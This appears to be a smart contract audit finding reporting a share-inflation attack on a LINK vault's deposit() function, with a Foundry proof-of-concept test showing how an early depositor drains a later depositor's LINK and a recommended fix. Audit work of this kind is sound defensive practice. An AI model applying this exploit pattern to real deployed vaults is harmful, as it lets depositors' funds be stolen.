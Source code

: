 joestakey

high

# deposit() can be broken by early minter

## Summary
Early users can grief future depositors by transferring LINK to the `VAULT` after calling `deposit()`, breaking the future minting of shares.

Future users will not receive any share for their LINK deposit if they do not deposit enough.

## Vulnerability Detail
`deposit()` uses `convertToShares` to calculate the amount of shares to be minted to the depositor.
`convertToShares` uses `totalSupply()`, ie the `LINK` balance of the `Vault`, which means an early minter can transfer a large amount of `LINK` to the `Vault` to increase `totalSupply`. Future deposits that are not large enough will result in the minting of `0` shares.

## Impact
The future deposits that are not large enough do not mint any shares. All the LINK that is transferred to the vault accrue to the early minters, meaning victim depositors will lose the `LINK` they deposited.
Note that because of `STARTING_SHARES_PER_LINK` being `1000`, this makes the attack only possible by transferring a large amount of `LINK`, but is nonetheless possible for large holders of `LINK`.

## Proof Of Concept

- Alice calls `deposit(1)`, depositing `1` unit of `LINK`. She receives `1000` shares.
- Alice transfers `1e18 LINK` to the Vault using the `ERC20.transfer()` method.
- Bob calls `deposit(1e15)`, depositing `1e15` unit of `LINK`.
- Because of Alice's transfer, `totalSupply = 1e18 + 1 > 1e15 * totalShares`. So Bob receives `0` shares.
- Alice calls `withdrawAll` to redeem her shares. Because she owns all the shares, she receives all the LINK in the `Vault`, including Bob's deposit.

Run this test - you can add it to `deposit.t.sol`:

```solidity
address Alice = address(1);
address Bob = address(2);
function testSmallWithdrawDrainVault() public {
    uint256 amountAlice = 1;
    uint256 amountTransferAlice = 1e18;
    uint256 amountBob = 1e15;
    vm.startPrank(Alice);
    link.mint(Alice, 10e18);
    link.mint(Bob, 10e18);
    
    link.approve(address(vault), 10e18);

    uint256 balanceAliceBefore = link.balanceOf(Alice);
    //Alice deposits 1 LINK
    vault.deposit(amountAlice);

    assertEq(vault.totalSupply(), amountAlice);
    assertEq(vault.balanceOf(Alice), amountAlice);
    assertEq(vault.shares(Alice), vault.STARTING_SHARES_PER_LINK());

    //Alice transfers 1e18 LINK to the Vault
    link.transfer(address(vault), amountTransferAlice);
    vm.stopPrank();
    // Bob deposits 1e15 LINK in the Vault
    vm.startPrank(Bob);
    link.approve(address(vault), 10e18);
    vault.deposit(amountBob);
    // Because the totalSupply() was 1e18 + 1 when Bob did the deposit, Bob did not receive any share
    assertEq(vault.totalSupply(), amountAlice + amountBob + amountTransferAlice);
    assertEq(vault.shares(Bob), 0);
    vm.stopPrank();

    // Now Alice redeems her shares
    vm.prank(Alice);
    vault.withdrawAll();
    // She receives the LINK deposited by Bob
    uint256 balanceAliceAfter = link.balanceOf(Alice);
    assertEq(balanceAliceAfter - balanceAliceBefore, amountBob);
}
```

## Code Snippet
https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L135-L136

## Tool used
Manual Review, Foundry

## Recommendation
In `deposit()`, ensure the number of shares to be minted is non-zero:

```diff
135:         uint256 newShares = convertToShares(_amount);
+            require(newShares != 0, "No shares minted");
136:         _mintShares(msg.sender, newShares);
137: 
138:         IERC20(LINK).transferFrom(msg.sender, address(this), _amount);
```
